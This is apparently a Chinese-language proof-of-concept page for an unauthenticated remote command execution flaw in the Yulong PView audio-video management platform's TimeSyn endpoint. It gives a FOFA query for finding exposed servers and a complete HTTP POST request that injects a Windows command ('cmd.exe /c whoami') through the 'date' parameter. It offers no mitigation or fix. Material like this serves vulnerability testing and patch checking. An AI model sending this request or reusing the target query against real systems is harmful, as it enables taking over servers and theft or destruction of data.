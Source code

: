 # 誉龙视音频综合管理平台TimeSyn存在远程命令执行漏洞

誉龙视音频综合管理平台TimeSyn存在远程命令执行漏洞，未经身份验证的远程攻击者在目标服务器上执行任意系统命令，可能导致服务器被完全控制、数据泄露或破坏，严重威胁系统安全。

## fofa

```javascript
body="PView 视音频管理平台"
```
fffff
## poc

```javascript
POST /index.php?r=Third/TimeSyn HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

cloudKey=0x0&date=|cmd.exe+/c+whoami+>+1.txt&time=1
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409162103838.png)
